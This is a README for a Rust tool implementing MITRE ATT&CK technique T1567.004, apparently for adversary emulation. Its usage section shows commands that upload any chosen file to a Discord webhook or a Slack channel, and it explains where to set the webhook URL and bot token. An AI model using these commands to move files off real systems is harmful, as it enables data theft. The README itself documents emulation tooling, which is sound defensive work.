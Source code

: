 # T1567.004 - Exfiltration Over Web Service: Exfiltration Over Webhook

Implementation of [T1567.004](https://attack.mitre.org/techniques/T1567/004/) - Exfiltration Over Web Service: Exfiltration Over Webhook.

## Features

- Supports Discord webhooks for message and file uploads
- Supports Slack bot integration for message and file uploads

## Usage

1. Build the binary:

    ```sh
    # For native platform
    make build

    # For Windows cross-compilation
    make windows
    ```

2. Run the tool:

    ```sh
    # Send a message
    ./t1567-004 -m "Test message" -w discord

    # Upload a file
    ./t1567-004 -f /path/to/file -w slack

    # Upload a file with a message
    ./t1567-004 -f /path/to/file -m "File description" -w discord
    ```

## Configuration

Before using the tool, update the following constants in `src/main.rs`:

- `DISCORD_WEBHOOK_URL`: Your Discord webhook URL
- `SLACK_BOT_TOKEN`: Your Slack bot user OAuth token
- `SLACK_CHANNEL_ID`: The target Slack channel ID

## Cleanup

Remove build artifacts:

```sh
make clean
```
